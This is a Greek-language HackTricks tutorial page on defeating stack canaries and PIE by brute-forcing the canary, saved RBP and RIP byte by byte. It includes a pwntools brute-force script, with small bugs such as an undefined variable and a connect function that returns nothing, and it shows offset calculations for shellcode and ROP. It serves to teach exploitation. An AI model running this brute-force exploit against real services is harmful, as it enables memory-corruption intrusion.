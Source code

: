 # BF Διευθύνσεις στη Στοίβα

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Αν αντιμετωπίζετε ένα δυαδικό αρχείο που προστατεύεται από ένα canary και PIE (Position Independent Executable) πιθανότατα χρειάζεστε να βρείτε έναν τρόπο να τα παρακάμψετε.**

![](<../../../../.gitbook/assets/image (144).png>)

{% hint style="info" %}
Σημειώστε ότι **`checksec`** μπορεί να μην βρει ότι ένα δυαδικό αρχείο προστατεύεται από ένα canary αν αυτό έχει στατικά μεταγλωττιστεί και δεν είναι ικανό να εντοπίσει τη λειτουργία.\
Ωστόσο, μπορείτε να το παρατηρήσετε χειροκίνητα αν βρείτε ότι μια τιμή αποθηκεύεται στη στοίβα στην αρχή μιας κλήσης λειτουργίας και αυτή η τιμή ελέγχεται πριν την έξοδο.
{% endhint %}

## Διευθύνσεις Brute-Force

Για να παρακάμψετε το PIE χρειάζεστε να **διαρρεύσετε κάποια διεύθυνση**. Και αν το δυαδικό αρχείο δεν διαρρέει καμία διεύθυνση, το καλύτερο που μπορείτε να κάνετε είναι να **brute-force το RBP και το RIP που αποθηκεύονται στη στοίβα** στη ευάλωτη λειτουργία.\
Για παράδειγμα, αν ένα δυαδικό αρχείο προστατεύεται χρησιμοποιώντας τόσο ένα **canary** όσο και **PIE**, μπορείτε να ξεκινήσετε να brute-force το canary, στη συνέχεια τα **επόμενα** 8 Bytes (x64) θα είναι το αποθηκευμένο **RBP** και τα **επόμενα** 8 Bytes θα είναι το αποθηκευμένο **RIP.**

{% hint style="success" %}
Υποτίθεται ότι η διεύθυνση επιστροφής μέσα στη στοίβα ανήκει στον κύριο κώδικα του δυαδικού αρχείου, ο οποίος, αν η ευπάθεια βρίσκεται στον κώδικα του δυαδικού αρχείου, θα είναι συνήθως η περίπτωση.
{% endhint %}

Για να brute-force το RBP και το RIP από το δυαδικό αρχείο μπορείτε να καταλάβετε ότι ένα έγκυρο μαντεμένο byte είναι σωστό αν το πρόγραμμα εκτυπώνει κάτι ή απλά δεν καταρρέει. Η **ίδια λειτουργία** που παρέχεται για brute-forcing το canary μπορεί να χρησιμοποιηθεί για brute-force το RBP και το RIP:
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

# CANARY BF HERE
canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary

# PIE BF FROM HERE
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
Το τελευταίο πράγμα που χρειάζεστε για να νικήσετε το PIE είναι να υπολογίσετε **χρήσιμες διευθύνσεις από τις διαρροές** διευθύνσεων: το **RBP** και το **RIP**.

Από το **RBP** μπορείτε να υπολογίσετε **πού γράφετε το shell σας στη στοίβα**. Αυτό μπορεί να είναι πολύ χρήσιμο για να γνωρίζετε πού θα γράψετε τη συμβολοσειρά _"/bin/sh\x00"_ μέσα στη στοίβα. Για να υπολογίσετε την απόσταση μεταξύ του διαρρεύσαντος RBP και του shellcode σας, μπορείτε απλώς να βάλετε ένα **breakpoint μετά τη διαρροή του RBP** και να ελέγξετε **πού βρίσκεται το shellcode σας**, στη συνέχεια, μπορείτε να υπολογίσετε την απόσταση μεταξύ του shellcode και του RBP:
```python
INI_SHELLCODE = RBP - 1152
```
Από το **RIP** μπορείτε να υπολογίσετε τη **βάση διεύθυνση του εκτελέσιμου αρχείου PIE** που θα χρειαστείτε για να δημιουργήσετε μια **έγκυρη αλυσίδα ROP**.\
Για να υπολογίσετε τη βάση διεύθυνση απλά εκτελέστε `objdump -d vunbinary` και ελέγξτε τις τελευταίες διευθύνσεις αποσυναρμολόγησης:

![](<../../../../.gitbook/assets/image (145).png>)

Σε αυτό το παράδειγμα μπορείτε να δείτε ότι χρειάζονται μόνο **1 Byte και μισό** για να εντοπίσετε όλο τον κώδικα, τότε, η βάση διεύθυνση σε αυτή την περίπτωση θα είναι το **leaked RIP αλλά τελειώνοντας σε "000"**. Για παράδειγμα, αν διαρρεύσατε `0x562002970ecf`, η βάση διεύθυνση είναι `0x562002970000`
```python
elf.address = RIP - (RIP & 0xfff)
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
